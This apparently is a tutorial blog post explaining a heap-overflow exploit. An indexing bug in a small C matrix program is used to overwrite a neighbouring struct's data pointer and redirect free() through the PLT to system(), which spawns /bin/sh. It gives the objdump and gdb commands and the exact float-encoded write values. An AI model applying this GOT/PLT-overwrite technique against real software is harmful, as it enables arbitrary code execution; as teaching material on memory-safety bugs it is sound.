 ```yaml
---
layout: post
title: A Tale of Indices
tags: exploit c-cpp
---
```


This is the story of how bad indexing code can lead to an exploit. Even though
this is on the heap, most of it doesn't actually involve malloc that much, but
relies on a specific feature of it: memory blocks are adjacent. However, it does
involve messing with the plt!

<!--more-->

## A Wild Bug Appears

First, the code. This is not exactly the original code, but simplified quite a
bit (removing the input logic, much checking and other functionality).

``` c
struct matrix
{
	int rows, cols;
	float* data; // allocated in the heap, has rows * cols floats
};

struct matrix* matrices[64]; // each matrix is allocated in the heap

float* get_addr(int id, int row, int col)
{
	// assume these values have been checked and are in range
	return &matrices[id]->data[row * mat->rows + col];
}

float get(int id, int row, int col)
{
	return *get_addr(id, row, col);
}

void set(int id, int row, int col, int val)
{
	*get_addr(id, row, call) = val;
}

int allocate(int rows, int cols)
{
	int id = get_free_id(); // logic somewhere else
	matrices[id] = malloc(sizeof(struct matrix));
	matrices[id]->rows = rows;
	matrices[id]->cols = cols;
	matrices[id]->data = calloc(sizeof(float) * rows * cols);
}

void release(int id)
{
	free(matrices[id]->data);
	free(matrices[id]);
	matrices[id] = 0;
}
```

Can you find the bug? Hint: it's in `get_addr`. The matrix indexing is
incorrect, it should be `row * mat->cols + col`. See the difference? This
overflow is what allows the shell to be spawned.

## A note on float conversion

In this program, memory is only accessible as floats. While inconvenient, this
is still usable as floats also take up the same space as ints, 4 bytes. With
enough digits, we can be guaranteed to get an identical value when we set it. To
find this value, we can use a union:

``` c
int main()
{
	union {
		int a;
		float b;
	};
	// set a or b here
	// e.g. a = 0x100
	printf("%8x %.9g", a, b);
}
```

Later on, we'll also write strings. Since the system is little endian (x86), we
just use the characters' ASCII value, in reverse order (for each 4-byte chunk).

## Exploit Preparation

Firstly, a bit on `malloc()`. It obtains memory from the system (usually via
`mmap()`), and divides it up into chunks. These are then allocated when
requested by the programmer. Since the block given is the first that fit the
size, this results in the matrices and their descriptors being allocated right
next to each other:

``` raw
+-------------+-------------------+-------------+-------------------+
| (sz) | mat1 | (sz) | mat1->data | (sz) | mat2 | (sz) | mat2->data |
+-------------+-------------------+-------------+-------------------+
```
As a result, we can exploit the bad indexing to overwrite the matrix descriptor
(in this case mat2) from the previous data block (mat1->data). Through this, we
can overwrite the data pointer of mat2 to whatever we want, allowing us to write
to any location in memory. One potential target is the plt (procedural link
table), which lists the location of functions of dynamically loaded libraries
(e.g. libc). However, one specific entry is of interest - `free()`. When
matrices are released, this is called on user-editable data, and with that as
the only argument. `system()` also takes a pointer as a single argument!

However, there is a problem: dynamic libraries can be loaded anywhere, and so
can `system()`. However, it is always at the same offset from `free()`, and we
can use that, along with the existing plt entry to calculate the position of
`system()`.

## Actual Exploit

First, we need to get some information:

``` raw
$ objdump -R matrix | grep free
0804a10c R_386_JUMP_SLOT   free
$ gdb -q matrix
Reading symbols from matrix...(no debugging symbols found)...done.
(gdb) p __libc_system - __libc_free
$1 = -228656
```

Now, we perform the actual exploit. First, we create 2 matrices which have more
rows than columns (e.g. 8*7). We then create and release another matrix. This is
required to initialize the plt entry to the actual location of `free()`
(`__libc_free()`), from which we can figure out the location of `system()` using
the offset. We now can use the overflowing get_addr logic to overwrite mat2's
data pointer to point to 0x0804a10c (the address of the plt entry).

``` c
allocate(8, 7); // id 0
allocate(8, 7); // id 1
allocate(1, 1); // id 2
release(2);
```

Now, how do we figure out where to write to overwrite that pointer? Since it's
the last element of the struct, we search down from the top, until we get to the
second non-zero value. Why second? Because the first would be the size of the
next block, and we have no need overwriting that. From my tests, it appears that
with an 8*7 matrix, the value is located at [7,4], which we overwrite with the
float equivalent of 0x0804a10c.

``` c
set(0, 7, 4, 3.991161479e-34); // mat[7][4] = 0x0804a10c
```

Then, we can get the current value of the plt entry, which would be the address
of `__libc_free()`. We can add the offset (-228656) to this to get the address
of `__libc_system()` and overwrite the exiting value with this.

``` c
get(1, 0, 0); // returns -4.468552546e+33 == 0xf75c5110
set(1, 0, 0, -4.397786941e+33); // mat[0][0] = 0xf758d3e0 == (0xf75c5110 - 228656)
```

Now that we have overwritten `free()`, we can write the payload, which is
"/bin/sh" (you can use any command here though). And we execute the command by
freeing that matrix.

``` c
set(0, 0, 0, 1.805717599e+28); // mat[0][0] = 0x6e69622f == '/bin'
set(0, 0, 1, 9.592211688e-39); // mat[0][0] = 0x0068732f == '/sh\0'
release(0);
$
```

Shell!
